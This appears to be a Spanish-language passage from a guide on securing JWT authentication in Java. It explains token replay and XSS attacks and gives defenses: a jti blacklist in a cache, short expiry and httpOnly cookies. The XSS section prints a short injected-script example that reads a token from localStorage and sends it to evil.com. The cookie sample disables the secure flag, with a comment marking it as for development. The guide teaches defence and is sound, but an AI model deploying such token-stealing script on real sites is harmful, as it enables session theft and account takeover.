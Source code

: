 
### 3. Token Replay

**Ataque:** El atacante intercepta un token válido y lo reutiliza.

**Defensa:**
- Usar `jti` (JWT ID) único
- Implementar blacklist en cache (Redis)
- Expiración corta

```java
@Inject
@CacheName("jwt-blacklist")
Cache blacklist;

public boolean isTokenBlacklisted(String jti) {
    return blacklist.get(jti).await().indefinitely() != null;
}
```

---

### 4. XSS (Cross-Site Scripting)

**Ataque:** Inyectar JavaScript que robe tokens de `localStorage`.

```javascript
// Código malicioso inyectado
let token = localStorage.getItem('jwt');
fetch('https://evil.com/steal?token=' + token);
```

**Defensa:**
- ✅ Usar `httpOnly` cookies (no accesibles desde JS)
- ✅ Sanitizar inputs
- ✅ Content Security Policy (CSP)

```java
@GET
public Response login(...) {
    return Response.ok()
        .cookie(new NewCookie(
            "jwt",
            token,
            "/",
            null,
            null,
            3600,
            false,  // No SSL only en dev
            true    // httpOnly = true ✅
        ))
        .build();
}
```

---
